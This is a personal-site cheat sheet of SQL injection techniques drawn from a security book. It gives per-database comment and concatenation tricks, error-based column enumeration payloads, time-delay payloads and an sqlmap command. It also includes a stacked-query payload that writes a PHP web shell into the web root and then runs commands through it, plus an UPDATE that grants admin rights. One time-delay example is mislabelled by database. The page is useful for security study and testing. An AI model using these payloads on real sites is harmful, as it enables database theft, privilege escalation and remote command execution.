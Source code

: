 <h1 class="header">SQL Injection</h1>
</br>
*02 November 2014* | [View On Github](https://github.com/sevaivanov/personal-website/blob/master/frontend/static/frontend/md/hacks/sqli.md#variations) | [Revision History](https://github.com/sevaivanov/personal-website/commits/master/frontend/static/frontend/md/hacks/sqli.md)

*Source: SQL Injection Attacks and Defense, 2nd Ed by Justin Clarke*

# Variations

## Comments

* MS SQL, Oracle, PostgreSQL

        --          single line
        /**/        multiple lines

* MySQL

        --          single line, requires to be followed by a character
        #           single line
        /**/        multiple lines

* AND operator has a higher priority than OR operator

## Always true statement

* MS SQL

        'ab'='a'+'b

* MySQL

        'ab'='a'b

* Oracle & PostgreSQL

        'ab'='a'||'b

# Techniques

* Commenting helps identify the database by trying to login via injection

        [http://www.victim.com/displayuser.aspx?User=Bob](#) -- Original request
        
        [http://www.victim.com/displayuser.aspx?User=B’+’ob](#) -- MSSQL
        
        [http://www.victim.com/displayuser.aspx?User=B’’ob](#) -- MySQL
        
        [http://www.victim.com/displayuser.aspx?User=B’||’ob](#) -- Oracle or PostgreSQL

* Commenting helps to bypass the extraction of spaces from input

        [http://www.victim.com/messages/list.aspx?uid=45 or 1=1](#)
        
        [http://www.victim.com/messages/list.aspx?uid=45/∗∗/or/∗∗/1=1](#)

* String with error is returned because the divison int/str wasn't intended

        ’AND 1=0/@@version;--

* HAVING wihout aggregated function GROUP BY returns the first column name of the error

        ’HAVING '1'=’1

* Enumerate all the columns in a SELECT statement by appending the found column names

        ’GROUP BY productid HAVING ‘1‘=’1
        ’GROUP BY productid, name HAVING ‘1’=’1

* Use division error to discover column values

        ’AND 1=0/user;--

* Discover other accounts with a username combined with a negative condition

        ’AND User NOT IN (‘Admin’) AND 1=0/User AND '1'='1
        

# Related HTTP errors

* 500 : rendering
* 302 : redirection

# Advises

* Avoid expensive queries as it could generate thousands of rows

        ' AND '1'='1

* False condition will only return few or none depending on the query code

        ' AND '1'='2

* MS SQL add admin privileges

        UPDATE users SET isadmin=1 ...

* Send shell commands via get, works if enough priviledges i.e. isadmin=1

        [http://www.victim.com/search.php?s=test’; SELECT ‘<?php echo shell_exec($_GET[“cmd”]);?>’ INTO OUTFILE ‘/var/www/victim.com/shell.php’;--](#)

        [http://www.victim.com/shell.php?cmd=ls](#)

* Use time delays to identify sql injection, i.e. if GET took 1.2s, injection will be delayed
        
    * MS SQL

            [http://www.victim.com/display.php?id=32; SELECT BENCHMARK(10000000,ENCODE(‘hello’,‘mom’));--](#)
        
    * Oracle doesn’t support stacked queries.DBMS_LOCK package is available only for database admins.

            [http://www.victim.com/display.php?id=32 or 1=dbms_pipe.receive_message(‘RDS’, 10)](#)
        
    * PostegreSQL >= 8.2
    
            [http://www.victim.com/display.php?id=32; SELECT pg_sleep(10);--](#)

# Tools

* wget : quickly detect server response anomaly
* awk : processing text-based data

* grep & awk recursive search

        grep -r -n “\(mysql\|mssql\|mysql_db\)_query\(.∗\$\(GET\|\POST\) .∗\)” src/ | awk -F:
        ‘{print “filename: “$1”\nline: “$2”\nmatch: “$3”\n\n”}’

* Graudit : automated source code review (deps: bash, grep, sed)

* SQLmap

You can test it for tables enumeration & banner in SQLite [loveinjection](http://www.github.com/gliderousrabbits/loveinjection/) repository

        ./sqlmap.py -u http://127.0.0.1:8000/sqlite3/level1/ --data="username=admin&password=a" -b --tables
